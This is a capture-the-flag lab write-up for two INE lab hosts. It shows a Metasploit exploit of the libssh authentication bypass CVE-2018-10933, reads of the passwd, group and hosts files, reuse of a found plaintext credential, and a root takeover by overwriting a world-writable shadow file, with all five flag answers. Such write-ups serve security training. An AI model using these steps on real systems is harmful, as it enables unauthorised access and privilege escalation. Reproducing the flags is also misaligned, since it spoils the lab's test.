

## Tasks




## target1.ine.local — Enumeration

```
nmap -sC -sV target1.ine.local
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     libssh 0.8.3 (protocol 2.0)
| ssh-hostkey:
|_  2048 31:e2:1d:f1:b2:39:0c:a3:ec:db:01:4a:eb:a2:39:c7 (RSA)
```

Only SSH is exposed. The version string identifies libssh 0.8.3, which is known to be vulnerable to an authentication bypass (CVE-2018-10933).

---
## Flag 1

> _The file that stores user account details is worth a closer look. (target1.ine.local)_

libssh 0.8.3 is vulnerable to CVE-2018-10933, an authentication bypass that allows an unauthenticated client to send an `SSH2_MSG_USERAUTH_SUCCESS` message and obtain a shell. The Metasploit auxiliary module `libssh_auth_bypass` exploits it directly. 

```
msf6 > use auxiliary/scanner/ssh/libssh_auth_bypass
msf6 auxiliary(scanner/ssh/libssh_auth_bypass) > set rhosts target1.ine.local
msf6 auxiliary(scanner/ssh/libssh_auth_bypass) > set spawn_pty true
msf6 auxiliary(scanner/ssh/libssh_auth_bypass) > run

[*] 192.159.207.4:22 - Attempting authentication bypass
[*] Command shell session 1 opened (192.159.207.2:35859 -> 192.159.207.4:22)

msf6 auxiliary(scanner/ssh/libssh_auth_bypass) > sessions -i 1
```

With a shell as an unprivileged user, `/etc/passwd` can be read.

```
sh-5.2$ cat /etc/passwd
```

```
root:x:0:0::/root:/usr/bin/bash
...
user:x:1000:1000::/home/user:/usr/bin/bash
FLAG1_9a0543ca72e24147b98f2c2e6cd90b35:x:1001:984::/home/FLAG1_9a0543ca72e24147b98f2c2e6cd90b35:/usr/bin/bash
```

```
FLAG1_9a0543ca72e24147b98f2c2e6cd90b35
```

---
## Flag 2

> _User groups might reveal more than you expect._

Reading `/etc/group` reveals the flag hidden as a comment at the end of the file:

```
sh-5.2$ cat /etc/group
```

```
root:x:0:root
sys:x:3:bin
...
user:x:1000:
# FLAG2_dc091a2047f144e8b19b52278e1e19cf
```

```
FLAG2_dc091a2047f144e8b19b52278e1e19cf
```

---
## Flag 3

> _Scheduled tasks often have telling names. Investigate the cron jobs to uncover the secret._

Listing the contents of all cron directories with hidden-file visibility reveals a flag under `/etc/cron.d/`:

```
sh-5.2$ ls -la /etc/cron.d/
```

```
total 20
drwxr-xr-x 1 root root 4096 Jun 13 14:51 .
drwxr-xr-x 1 root root 4096 Jun 13 14:51 ..
-rw-r--r-- 1 root root  128 Apr  8  2024 0hourly
-rw-r--r-- 1 root root   66 Jun 13 14:51 FLAG3_ba0402ef541b44e781703a9256cb7b74
```

```
FLAG3_ba0402ef541b44e781703a9256cb7b74
```

---

## Flag 4

> _DNS configurations might point you in the right direction. Also, explore the home directories for stored credentials._

Reading `/etc/hosts` reveals the flag embedded as a comment alongside the DNS entries:

```
sh-5.2$ cat /etc/hosts
```

```
127.0.0.1       localhost
::1             localhost ip6-localhost ip6-loopback
fe00::0         ip6-localnet
ff00::0         ip6-mcastprefix
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters
192.159.207.4   target1.ine.local target1
#FLAG4_ee05aff42278407c9a8813849b029761
192.159.207.2   INE
192.159.207.3   target2.ine.local
```

Enumerating the home directories discloses plaintext credentials for the user `john`:

```
sh-5.2$ ls /home
temp  user

sh-5.2$ cat /home/user/credentials.txt
john:Pass@john123
```

```
FLAG4_ee05aff42278407c9a8813849b029761
```

---
## Flag 5

> _Use the discovered credentials to gain higher privileges and explore the root's home directory on target2.ine.local._

After logging to SSH as `john`, a search for world-writable files (excluding symlinks) reveals that `/etc/shadow` is writable by any user:

```
john@target2:/home$ find / -not -type l -perm -o+w 2>/dev/null
...
/etc/shadow
```

Since `/etc/shadow` is writable, the root password hash can be replaced with an arbitrary one. A new hash is generated with `openssl` and written directly into the shadow file:

```
john@target2:/home$ openssl passwd -1 -salt root pwned
$1$root$44KBm/bsEV.3PQ3pTfjA8/
```

The root entry in `/etc/shadow` is updated to use the new hash, then `su` is used to switch to root with the chosen password `pwned`:

```
john@target2:/home$ cat /etc/shadow | grep root
root:$1$root$44KBm/bsEV.3PQ3pTfjA8/:19977:0:99999:7:::

john@target2:/home$ su
Password: pwned

root@target2:/home# cat /root/flag.txt
FLAG5_c35e75b38ec444b7a2c0dc8763005c58
```

```
FLAG5_c35e75b38ec444b7a2c0dc8763005c58
```

---
## Summary

|#|Target|Technique|Flag|
|---|---|---|---|
|1|target1|libssh auth bypass (CVE-2018-10933) → `/etc/passwd` username|`FLAG1_9a0543ca72e24147b98f2c2e6cd90b35`|
|2|target1|`/etc/group` comment disclosure|`FLAG2_dc091a2047f144e8b19b52278e1e19cf`|
|3|target1|Cron job filename enumeration|`FLAG3_ba0402ef541b44e781703a9256cb7b74`|
|4|target1|`/etc/hosts` comment + credential discovery|`FLAG4_ee05aff42278407c9a8813849b029761`|
|5|target2|Credential reuse + world-writable `/etc/shadow` → root|`FLAG5_c35e75b38ec444b7a2c0dc8763005c58`|